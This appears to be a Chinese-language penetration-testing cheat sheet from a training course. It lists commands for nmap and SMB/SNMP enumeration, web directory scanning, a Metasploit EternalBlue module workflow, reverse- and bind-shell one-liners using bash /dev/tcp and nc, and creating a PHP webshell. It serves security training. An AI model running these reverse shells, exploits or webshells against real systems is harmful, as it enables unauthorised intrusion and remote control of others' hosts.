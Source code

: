 ## 渗透测试
| **命令**   | **描述**   |
| --------------|-------------------|
| **服务扫描** |
| `nmap 10.129.42.253` | 在IP上运行nmap |
| `nmap -sV -sC -p- 10.129.42.253` | 在IP上运行nmap脚本扫描 |
| `locate scripts/citrix` | 列出各种可用的nmap脚本 |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40` | 在IP上运行nmap脚本 |
| `netcat 10.10.10.10 22` | 获取开放端口的标语 |
| `smbclient -N -L \\\\10.129.42.253` | 列出SMB共享 |
| `smbclient \\\\10.129.42.253\\users` | 连接到SMB共享 |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | 扫描IP上的SNMP |
| `onesixtyone -c dict.txt 10.129.42.254` | 暴力破解SNMP密钥字符串 |
| **Web枚举** |
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | 对网站运行目录扫描 |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | 对网站运行子域扫描 |
| `curl -IL https://www.inlanefreight.com` | 获取网站标语 |
| `whatweb 10.10.10.121` | 列出有关web服务器/证书的详细信息 |
| `curl 10.10.10.121/robots.txt` | 列出`robots.txt`中的潜在目录 |
| `ctrl+U` | 查看页面源代码（在Firefox中） |
| **公开利用** |
| `searchsploit openssh 7.2` | 搜索Web应用程序的公开利用 |
| `msfconsole` | MSF：启动Metasploit框架 |
| `search exploit eternalblue` | MSF：在MSF中搜索公开利用 |
| `use exploit/windows/smb/ms17_010_psexec` | MSF：开始使用MSF模块 |
| `show options` | MSF：显示MSF模块的所需选项 |
| `set RHOSTS 10.10.10.40` | MSF：为MSF模块选项设置值 |
| `check` | MSF：测试目标服务器是否存在漏洞 |
| `exploit` | MSF：在目标服务器上运行利用 |
| **使用Shell** |
| `nc -lvnp 1234` | 在本地端口上启动`nc`监听器 |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | 从远程服务器发送反向Shell |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | 另一种从远程服务器发送反向Shell的命令 |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | 在远程服务器上启动绑定Shell |
| `nc 10.10.10.1 1234` | 连接到远程服务器上启动的绑定Shell |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | 升级Shell TTY（1） |
| `ctrl+z`，然后`stty raw -echo`，然后`fg`，然后两次`enter` | 升级Shell TTY（2） |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | 创建一个Webshell php文件 |